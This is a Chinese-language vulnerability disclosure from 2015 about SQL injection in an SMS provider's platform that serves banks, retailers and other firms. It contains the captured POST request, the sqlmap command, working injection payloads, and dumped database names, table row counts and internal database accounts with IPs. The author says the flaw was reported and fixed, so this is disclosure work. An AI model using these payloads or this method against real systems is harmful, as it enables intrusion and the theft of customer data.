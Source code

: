 # 某平台SQL注入影响数十万企业

Feei <feei#feei.cn> 01/2015

> 一家短信提供商，影响涉及各行各业包括金融证券、酒店、医药、互联网等数十万企业的短信的发送记录、发送权限

## 0x01 漏洞入口

由之前扫到的弱口令，登陆进来后找到以下注入点：

```bash
POST  
http://211.***.***.62/Statistics/SumStatistics/GetSumDepartment?startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true HTTP/1.1  
Host: 211.***.***.62  
Connection: keep-alive  
Content-Length: 76  
Pragma: no-cache  
Cache-Control: no-cache  
Accept: application/json, text/javascript, */*; q=0.01  
Origin: http://211.***.***.62  
X-Requested-With: XMLHttpRequest  
DNT: 1  
Referer: http://211.***.***.62/Statistics/SumStatistics/Index  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6  
Cookie: 替换为登陆后的COOKIE  
MenusBlockIDs=10010,10011,10012,10013,10014,17000,12000,13000,14000,15000,18000,18200; ControllerName=SumStatistics
startTime=2015-01-25&endTime=2015-01-25&mstype=SMS&onTime=true
```

保存为`header`文件，使用`sqlmap`跑下。

`./sqlmap.py -r header --threads 10 --dbs -batch`

```bash
Place: POST  
Parameter: startTime  
Type: boolean-based blind  
Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)  
Payload: startTime=-6517' OR (4508=4508)#&endTime=2015-01-25&mstype=SMS&on  
Time=true  
Type: error-based  
Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause  
Payload: startTime=2015-01-25' AND (SELECT 6733 FROM(SELECT COUNT(*),CONCAT(0x716c6f6371,(SELECT (CASE WHEN (6733=6733) THEN 1 ELSE 0 END)),0x716f697771,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) AND '  
kjoG'='kjoG&endTime=2015-01-25&mstype=SMS&onTime=true  
Type: AND/OR time-based blind  
Title: MySQL > 5.0.11 AND time-based blind  
Payload: startTime=2015-01-25' AND SLEEP(5) AND 'JYnp'='JYnp&endTime=2015-  
01-25&mstype=SMS&onTime=true
```

## 0x02 漏洞证明

涉及16个数据库

**DATABASES(16)**
```
[*] 400_gsms
[*] 400_list
[*] commission
[*] gsms2_init
[*] gsms_init
[*] information_schema
[*] list2_init
[*] list_init
[*] mos2_gsms
[*] mos_gsms
[*] mos_gsms2_1
[*] mos_gsms_2
[*] mos_list2_1
[*] mysql
[*] performance_schema
[*] test
```

影响千万级数据

```
Database: mos_gsms2_1
+-------------------------------+---------+
| Table | Entries |
+-------------------------------+---------+
| gsms_msg_ticket | 4302497 |
| gsms_contact | 4191441 |
| gsms_statereport | 4031478 |
| gsms_deduct_record | 599589 |
| gsms_user_role | 360443 |
| gsms_user_role20130408 | 360110 |
| gsms_user_role20130409 | 360052 |
| gsms_msg_frame | 359263 |
| gsms_msg_pack | 241054 |
| gsms_non_white_list | 158632 |
| gsms_red_list | 124257 |
| gsms_account_carrier_price | 100360 |
| gsms_user | 58597 |
| gsms_user20130403 | 58523 |
| gsms_user20130401 | 58518 |
| gsms_user20130312 | 58275 |
| gsms_biztype_specnum | 53074 |
| gsms_enterprise_apply_detail | 49971 |
| gsms_user_business_type | 47656 |
| gsms_enterprise_specnum_bind | 39635 |
| gsms_user_account_bind | 33256 |
| gsms_business_type | 13511 |
| gsms_capital_account | 12545 |
| gsms_enterprise_apply | 12542 |
```
**Users(56)**
```bash
[*] 'cactiuser'@'192.168.10.89'
[*] 'censerver'@'192.168.10.89'
[*] 'censerver'@'localhost'
[*] 'chengxuan'@'192.168.%'
[*] 'chengxuan'@'localhost'
[*] 'innotop'@'192.168.10.83'
[*] 'monitor'@'192.168.10.89'
[*] 'monyog'@'192.168.%'
[*] 'monyog'@'localhost'
[*] 'moshengkuo'@'192.168.%'
[*] 'mscheck'@'127.0.0.1'
[*] 'mscheck'@'192.168.%'
[*] 'mscheck'@'localhost'
[*] 'private'@'192.168.10.86'
[*] 'private'@'localhost'
[*] 'program'@'172.16.200.10'
[*] 'program'@'172.16.202.101'
[*] 'program'@'172.16.202.102'
[*] 'program'@'172.16.202.203'
[*] 'program'@'183.232.65.44'
[*] 'program'@'192.168.%'
[*] 'program'@'192.168.10.100'
[*] 'program'@'192.168.10.101'
[*] 'program'@'192.168.10.102'
[*] 'program'@'192.168.10.98'
...
[*] 'program'@'localhost'
[*] 'repl'@'192.168.10.%'
[*] 'repl'@'192.168.10.130'
[*] 'root'@'%'
[*] 'root'@'192.168.%
[*] 'root'@'localhost'
[*] 'super'@'192.168.%'
[*] 'super'@'192.168.10.86'
[*] 'super'@'localhost'
[*] 'wanglianguang'@'%'
[*] 'wanglianguang'@'192.168.%'
[*] 'wanglianguang'@'localhost'
[*] 'xiaozhuan'@'192.168.%'
[*] 'xiaozhuan'@'localhost'
```

## 0x03 漏洞影响

![](images/v_xuanwu_01.gif)
![](images/v_xuanwu_02.gif)
![](images/v_xuanwu_03.gif)
![](images/v_xuanwu_04.png)
![](images/v_xuanwu_05.png)
![](images/v_xuanwu_06.png)
![](images/v_xuanwu_07.png)
![](images/v_xuanwu_08.jpg)

从结果看应该所有产品数据库都在，光短信库用户就有50000多家，短信数量千万级。还有400等产品

涉及厂商（短信发送数较多的）
- 各大银行
- 东风悦达起亚
- 安利中国
- BMW中国
- 人人快递网
- 中通物流
- 我要旅行网
- 娃哈哈集团
- GXG
- 唯品会
- 酷讯
- ...

漏洞已报告给CNCERT/乌云/补天或厂商且已修复完成，感谢厂商的重视及现金奖励。

披露漏洞细节是安全行业通行做法，若对披露有异议请联系`feei#feei.cn`进行隐藏厂商处理。
